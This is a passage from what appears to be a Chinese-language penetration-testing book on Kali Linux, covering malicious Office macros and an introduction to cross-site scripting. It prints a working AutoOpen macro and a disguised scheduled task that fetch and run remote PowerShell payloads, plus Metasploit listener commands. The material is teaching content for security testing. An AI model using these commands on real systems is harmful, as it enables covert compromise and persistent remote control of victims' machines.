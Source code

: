Metasploit Framework 将生成一个可以嵌入文档并用于发动攻击的一行宏，如下示例代码所示：

```
 Sub AutoOpen()
 Call Shell("PowerShell.exe -w hidden -nop -ep bypass -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.1.102:4444/boom'))"",1)
 End Sub

```

在攻击完成之前，攻击者必须为传入 shell 准备一个监听器（`URIPATH`由 Metasploit 随机生成；确保为监听器设置正确的`URIPATH`）。创建监听器的命令如下：

```
 msf> use exploit/windows/misc/psh_web_delivery
 msf exploit(psh_web_delivery) > set SRVHOST 192.168.1.102
 msf exploit(psh_web_delivery) > set URIPATH boom
 msf exploit(psh_web_delivery) > exploit

```

成功的攻击将在攻击者的系统上创建一个交互式 shell。

### 提示

可以使用`schtask`命令使`psh_web_delivery`持久化。以下命令将创建一个计划任务`MSOfficeMngmt`，该任务将在登录时实现`powershell.exe`（默认情况下位于`Windows\system32`目录中）：

```
schtasks /create /tn MSOfficeMngmt /tr "powershell.exe -WindowsStyle hidden -NoLogo -NonInteractive -ep -bypass -nop -c 'IEX ((new-object net.webclient).downloadstring (''http://192.168.1.104:4444/boom'''))'" /sc onlogon /ru System

```

Kali 的 PowerSploit 目录中可以找到用于支持后期利用活动的额外 PowerShell 脚本。尽管 PowerShell 具有灵活性，但它也有一些缺点。

例如，如果最终用户在应用持久性机制之前关闭包含宏的文档，则连接将丢失。

更重要的是，诸如 VBScript 和 PowerShell 之类的脚本只对 Microsoft 环境有用。为了扩大客户端攻击的范围，我们需要寻找一个通用的客户端漏洞，无论其操作系统环境如何都可以利用。这种漏洞的一个特例就是跨站脚本攻击。

# 跨站脚本框架

**跨站脚本**（**XSS**）漏洞据报道是网站中发现的最常见的可利用漏洞。据估计，它们存在于高达 80％的所有应用程序中。

XSS 漏洞发生在应用程序（通常是基于 Web 的）违反了被称为**同源策略**的信任概念，并显示了未经消毒以删除恶意语句的用户提供的内容。

至少有两种主要类型的 XSS 漏洞：**非持久**和**持久**。

最常见的类型是非持久或反射漏洞。当客户端提供的数据立即被服务器用于显示响应时，就会发生这种漏洞。这种漏洞的攻击可以通过电子邮件或第三方网站提供看似引用受信任网站但包含 XSS 攻击代码的 URL 来发生。如果受信任的网站容易受到这种特定攻击的影响，执行该链接可能导致受害者的浏览器执行一个恶意脚本，可能导致妥协。

持久（存储）XSS 漏洞发生在攻击者提供的数据被服务器保存，然后在用户浏览过程中永久显示在受信任的网页上。这通常发生在允许用户发布 HTML 格式消息的在线留言板和博客上。攻击者可以在网页上放置一个对传入用户不可见的恶意脚本，但会危害访问受影响页面的访客。

Kali Linux 上存在一些工具用于查找 XSS 漏洞，包括 xsser 和各种漏洞扫描器。然而，有一些工具允许测试人员充分利用 XSS 漏洞，展示了这种弱点的严重性。

**跨站脚本框架**（**XSSF**）是一个多平台安全工具，利用 XSS 漏洞与目标创建通信渠道，支持包括：

